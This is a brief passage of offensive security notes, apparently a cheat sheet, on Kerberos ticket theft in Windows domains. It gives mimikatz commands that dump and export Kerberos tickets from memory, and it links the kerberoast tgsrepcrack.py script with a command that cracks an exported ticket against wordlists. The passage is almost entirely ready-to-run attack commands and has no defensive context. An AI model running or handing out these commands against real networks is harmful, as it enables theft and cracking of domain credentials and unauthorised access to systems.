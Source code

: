 ```powershell
./mimikatz.exe "sekurlsa::tickets" # Get tickets stored in momery
```

```powershell
klist # List tickets
```

```powershell
./mimikatz.exe "kerberos::list /export" # Export tickets
```

https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py
```shell
python3 tgsrepcrack.py `fzf-wordlists` $KIRBI_TICKET
```

